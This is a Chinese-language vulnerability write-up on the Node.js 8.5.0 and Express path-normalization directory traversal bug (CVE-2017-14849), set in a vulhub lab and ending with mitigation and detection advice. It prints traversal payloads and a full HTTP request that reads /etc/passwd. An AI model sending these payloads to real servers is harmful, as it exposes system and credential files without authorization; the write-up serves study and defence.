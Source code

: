 ```yaml
---
category: 网络安全
tag: 漏洞分析
---
```


# 漏洞名称：Node.js 目录穿越漏洞

<!-- more -->

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](http://www.cnnvd.org.cn/index.html)

express 这类 web 框架，通常会提供了静态文件服务器的功能，这些功能依赖于`normalize`函数。比如，express 在判断 path 是否超出静态目录范围时，就用到了`normalize`函数，Node.js 8.5.0 对目录进行`normalize`操作时出现了逻辑错误，导致`normalize`函数返回错误结果导致绕过了检查，造成任意文件读取漏洞。

当然，`normalize`的 BUG 可以影响的绝非仅有 express，更有待深入挖掘。

---

### 漏洞危害

任意文件读取

---

### 影响范围

Node.js 8.5.0 + Express 3.19.0-3.21.2
Node.js 8.5.0 + Express 4.11.0-4.15.5

---

## 漏洞原理

> 参考链接：https://security.tencent.com/index.php/blog/msg/121

原因是 Node.js 8.5.0 对目录进行`normalize`操作时出现了逻辑错误，导致向上层跳跃的时候（如`../../../../../../etc/passwd`），在中间位置增加`foo/../`（如`../../../foo/../../../../etc/passwd`），即可使`normalize`返回`/etc/passwd`，但实际上正确结果应该是`../../../../../../etc/passwd`。具体如下：

Express 依赖 Send 组件，Send 组件 0.11.0-0.15.6 版本 pipe()函数中，如图：

![03](./img/node_CVE-2017-14849/03.png)

Send 模块通过`normalize('.' + sep + path)`标准化路径 path 后，并没有赋值给 path，而是仅仅判断了下是否存在目录跳转字符。如果我们能绕过目录跳转字符的判断，就能把目录跳转字符带入 545 行的`join(root, path)`函数中，跳转到我们想要跳转到的目录中，这是 Send 模块的一个 bug，目前已经修复。

再来看 Node.js，Node.js 8.5.0 对 path.js 文件中的`normalizeStringPosix`函数进行了修改，使其能够对路径做到如下的标准化：

```
assert.strictEqual(path.posix.normalize('bar/foo../..'), 'bar');
```

新的修改带来了问题，通过单步调试发现，可以通过`foo../../`和目录跳转字符一起注入到路径中，`foo../../`可以把变量`isAboveRoot`设置为`false`（代码 161 行），并且在代码 135 行把自己删掉；变量`isAboveRoot`为`false`的情况下，可以在`foo../../`两边设置同样数量的跳转字符，让他们同样在代码 135 行把自己删除，这样就可以构造出一个带有跳转字符，但是通过`normalizeStringPosix`函数标准化后又会全部自动移除的 payload，这个 payload 配合上面提到的 Send 模块 bug 就能够成功的返回一个我们想要的物理路径，最后在 Send 模块中读取并返回文件。

该漏洞是建立在文件夹通过 express.static 来托管的情况下，因为在这种情况下才会使用 normalize 函数进行 path 标准化。

比如代码这样写：

```
app.use(express.static(path.join(__dirname, 'static')));
```

那么 payload 应该是

```
/../../../a/../../../../etc/passwd
```

但代码如果是这样写的话：

```
app.use(``'/static'``,express.static(path.join(__dirname, 'static')));
```

那么 payload 应该为：

```
/static/../../../a/../../../../etc/passwd
```

---

## 漏洞利用

### 靶机环境

vulhub/node/CVE-2017-14849

---

### 利用方式

访问`http://your-ip:3000/`即可查看到一个 web 页面，其中引用到了文件`/static/main.js`，说明其存在静态文件服务器。

![01](./img/node_CVE-2017-14849/01.png)

发送如下数据包，即可读取 passwd：

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

![02](./img/node_CVE-2017-14849/02.png)

或者访问其他文件：

![04](./img/node_CVE-2017-14849/04.png)

---

## 威胁防护建议

### 用户处置建议

避免使用受影响版本的 node.js

---

### 安全产品检测建议

检测类似`../../../foo/../../../../etc/passwd`的目录遍历形式

---

> https://drive.weixin.qq.com/s?k=AD4AGAfCAAw86qs7kb)
